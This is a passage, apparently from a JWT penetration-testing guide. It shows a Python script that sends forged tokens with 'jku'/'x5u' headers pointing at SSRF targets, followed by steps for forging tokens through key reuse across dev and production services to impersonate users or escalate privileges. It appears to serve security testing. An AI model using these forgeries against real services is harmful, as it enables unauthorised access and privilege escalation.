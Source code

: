        # Create payload
       payload = {
           "sub": "1234567890",
           "role": "user",
           "iat": int(time.time())
       }
       
       for target in ssrf_targets:
           # Try with JKU
           headers_jku = {
               "alg": "HS256",
               "typ": "JWT",
               "jku": target
           }
           
           # Try with X5U
           headers_x5u = {
               "alg": "HS256",
               "typ": "JWT",
               "x5u": target
           }
           
           token_jku = jwt.encode(payload, secret, algorithm="HS256", headers=headers_jku)
           token_x5u = jwt.encode(payload, secret, algorithm="HS256", headers=headers_x5u)
           
           # Test JKU token
           response_jku = requests.get(
               f"{base_url}/profile", 
               headers={"Authorization": f"Bearer {token_jku}"}
           )
           
           # Test X5U token
           response_x5u = requests.get(
               f"{base_url}/profile", 
               headers={"Authorization": f"Bearer {token_x5u}"}
           )
           
           print(f"Target: {target}")
           print(f"JKU Status: {response_jku.status_code}, Length: {len(response_jku.text)}")
           print(f"X5U Status: {response_x5u.status_code}, Length: {len(response_x5u.text)}")
           print("-" * 50)
       ```

    3. **JWT Token Forgery via Cross-Service Key Reuse**:
       - Step 1: Identify multiple services using JWT authentication
       - Step 2: Obtain legitimate tokens from each service
       - Step 3: Check if the signatures are identical for the same payload across services
       - Step 4: If key reuse is detected, obtain a token from one service
       - Step 5: Modify the payload to impersonate users or escalate privileges
       - Step 6: Use the same signature mechanism to sign the token
       - Step 7: Use the forged token on the target service
       - Testing insight: Compare tokens from development, staging, and production environments
       - Exploitation insight: Dev keys often get reused in production environments
       - Script to check for key reuse:
       ```python
       import jwt
       import requests
       import json
       import base64